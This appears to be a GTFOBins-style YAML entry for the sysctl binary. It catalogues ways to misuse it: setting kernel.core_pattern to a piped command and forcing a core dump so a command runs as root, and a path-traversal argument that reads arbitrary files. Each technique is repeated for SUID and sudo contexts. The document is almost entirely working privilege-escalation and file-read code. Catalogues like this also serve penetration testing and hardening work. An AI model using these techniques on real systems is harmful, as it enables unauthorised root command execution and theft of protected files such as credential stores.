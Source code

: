 ```yaml
---
functions:
  command:
    - description: The command is executed by root in the background when a core dump occurs.
      code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id

  file-read:
    - description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
      code: |
        LFILE=file_to_read
        /usr/sbin/sysctl -n "/../../$LFILE"
  suid:
    - code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
    - code: |
        LFILE=file_to_read
        ./sysctl -n "/../../$LFILE"
  sudo:
    - code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sudo sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
    - code: |
        LFILE=file_to_read
        sudo sysctl -n "/../../$LFILE"
---
```

